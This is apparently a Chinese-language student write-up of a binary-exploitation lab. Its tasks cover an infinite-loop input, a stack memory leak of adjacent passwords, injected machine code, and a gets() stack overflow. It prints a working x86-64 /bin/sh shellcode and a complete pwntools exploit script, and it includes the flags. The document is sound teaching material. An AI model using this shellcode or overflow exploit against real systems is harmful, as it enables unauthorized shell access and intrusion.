Pwn Lab 1
:material-circle-edit-outline: 约 1261 个字 :fontawesome-solid-code: 81 行代码 :material-clock-time-two-outline: 预计阅读时间 5 分钟
1. Task 1
观察代码，检索出可能存在漏洞的部分：
| C |
|---|
| printf("Input your decimal number: ");
scanf("%d", &a);
printf("What do you want to turn it into: ");
scanf("%d", &b);
for (i = 0; i < 100; i++) {
if (a <= pow(b, i))
break;
}
|
代码没有对输入做判断，所以可以构造特殊的输入让程序陷入死循环。a <= pow(b, i)时跳出，所以只需要让a>pow(b, i)恒成立即可，例如，a取一个大于1的整数，b取0，pow的部分永远是1，这样程序就不会退出，于是有：

得到flag：AAA{pr0GraM_C4n_ea5ilY_crAsH}
本题可以纯交互完成，所以没有附上代码。

2. Task 2
检查代码，这是一个登录程序，有两个用户，分别为"user"和"admin"，因此需要想办法找到密码，检查密码输入的逻辑，发现代码使用了 read(STDIN_FILENO,buf,BUFFER_SIZE);而最后输出的时候有 printf("you input password as %s (len %d)\n",password,strlen(password));，使用了strlen函数，而这个函数默认以第一个遇到的'/0'为结尾，如果没有遇到则会一直输出，直到遇到'/0'。而代码中变量定义是挨在一起的：
| C |
|---|
| char username[BUFFER_SIZE];
char password[BUFFER_SIZE];
char password_verify[BUFFER_SIZE];
|
说明在内存中输入的密码和真正的密码是存在相邻的位置的，通过构造无结尾的字符就能使程序输出真正的密码：

然后再输入真正的密码登入，拿到第一部分的flag：AAA{Oh_D1rTy_sta

如法炮制拿到admin的密码,然后重新登录，用cat拿到第二部分的flag：CK_Ne3d_C1a4n}

完整的flag为：AAA{Oh_D1rTy_staCK_Ne3d_C1a4n}

3. Task 3
对文件进行反汇编，可以看出：这个代码要求我们在实现一些计算功能的代码后，以汇编的形式传入，程序会用我们提供的函数进行计算只有全部通过了才能拿到flag1：

因此，我们需要先得到这些运算的汇编代码，我们将所有功能写进一个c文件中：
| C |
|---|
| int add(int a, int b)
{
return a + b;
}
int sub(int a, int b)
{
return a - b;
}
int and(int a, int b)
{
return a & b;
}
int or(int a, int b)
{
return a | b;
}
int xor(int a, int b)
{
return a ^ b;
}
|
用 gcc -S -O2 cal.c, as cal.s -o cal.o ,file cal.o生成.o文件，便可以用 objdump -d <file name>|less查看其汇编代码和机器码了：
| Text Only |
|---|
| 0000000000000000 <add>:
0: f3 0f 1e fa endbr64
4: 8d 04 37 lea (%rdi,%rsi,1),%eax
7: c3 ret
8: 0f 1f 84 00 00 00 00 nopl 0x0(%rax,%rax,1)
f: 00
0000000000000010 <sub>:
10: f3 0f 1e fa endbr64
14: 89 f8 mov %edi,%eax
16: 29 f0 sub %esi,%eax
18: c3 ret
19: 0f 1f 80 00 00 00 00 nopl 0x0(%rax)
0000000000000020 <and>:
20: f3 0f 1e fa endbr64
24: 89 f8 mov %edi,%eax
26: 21 f0 and %esi,%eax
28: c3 ret
29: 0f 1f 80 00 00 00 00 nopl 0x0(%rax)
0000000000000030 <or>:
30: f3 0f 1e fa endbr64
34: 89 f8 mov %edi,%eax
36: 09 f0 or %esi,%eax
38: c3 ret
39: 0f 1f 80 00 00 00 00 nopl 0x0(%rax)
0000000000000040 <xor>:
40: f3 0f 1e fa endbr64
44: 89 f8 mov %edi,%eax
46: 31 f0 xor %esi,%eax
48: c3 ret
|
将这些指令分别传入程序：
| Python |
|---|
| add_code = b"\xf3\x0f\x1e\xfa\x8d\x04\x37\xc3"
sub_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x29\xf0\xc3"
and_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x21\xf0\xc3"
or_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x09\xf0\xc3"
xor_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x31\xf0\xc3"
|
最后得到：

所以flag的第一部分为：AAA{SheL1c0de_T0
正常按照程序流程走的话只能拿到第一部分的flag，既然程序给了我们执行任意代码的能力，就需要想办法调出shell来找到第二部分的flag了，为此需要使用shellcode，通过查询database找到了我们需要的shellcode：shellcode=b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
传入程序调出shell，最后找到flag的第二部分：_9E7_All_F1ag5}

完整的flag为：AAA{SheL1c0de_T0_9E7_All_F1ag5}
4. Task 4
检查.c文件的漏洞：
| C |
|---|
| int main(int argc, char *argv[])
{
prepare(); // quite necessary
int rndval;
int size = sysconf(_SC_PAGESIZE);
char *rndstr = getenv(RDNKEY);
char buffer[32];
sscanf(rndstr, "%d", &rndval);
uint64_t map_addr = MAP_ADDR + ((rndval % 8) * 0x1000);
mmap(map_addr, size, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
puts("what's your name: ");
read(0, map_addr, 64);
puts("try to overflow me~");
gets(buffer);
return 0;
}
|
从这里可以看出，read函数输入的数据是可以执行的（PROT_EXEC），我们可以把shellcode放到这里面，用后面的gets函数实现栈溢出攻击，将函数的返回地址改到map_addr，就能够使程序跳转到我们的shellcode。因此我们需要知道，shellcode的地址和需要覆盖的字节数。
MAP_ADDR的宏定义为 #define MAP_ADDR 0x20000，经过 uint64_t map_addr = MAP_ADDR + ((rndval % 8) * 0x1000);转换后得到map_addr，也就是注入的shellcode的位置，然而rndval取决于服务器的环境变量取值，需要进行爆破，好在有取模的限制，我们最多只需要8次尝试。
把可执行文件放入IDA查看其汇编代码：

我们的目标是让函数回到retn语句，实现返回，调用gets前[rbp-40h]告诉了我们偏移量，而且在64位系统下还额外需要8字节的偏移量，最后使用的覆盖长度是 0x40+8。
根据以上思路和之前查到的shellcode，可以完成以下攻击代码：
| Python |
|---|
| from pwn import *
# 目标服务器地址和端口
target_address = '127.0.0.1'
target_port = 51842
# 连接到目标服务器
p = remote(target_address, target_port)
shellcode_addr=0x20000 +0x5000
# x86_64 Linux 打开shell的shellcode
shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
# 计算部分
payload=b'A'*(0x40+8) + p64(shellcode_addr)
# 发送shellcode到目标服务器
p.sendafter(b"what's your name: ",shellcode)
p.sendafter(b"try to overflow me~",payload)
# 切换到交互模式
p.interactive()
|
其中0x5000的偏移量是逐个遍历得到的。由此可以进入shell，并使用cat flag命令输出flag的内容：AAA{R37_t0_guEs5_shE1Lc0d3_poS}

从而完成此题目：

5. Bonus
这道题目比前面的几题都简单，题目已经给出服务器的架构是x86的32位系统，而且还直接开放了代码的运行权限，所以直接把shellcode发送过去然后在对应路径找到flag即可。

上图中的代码可以直接跳转到指定路径并输出flag的内容，即AAA{lgm_is_a_big_turtle_qq_qun_386796080}。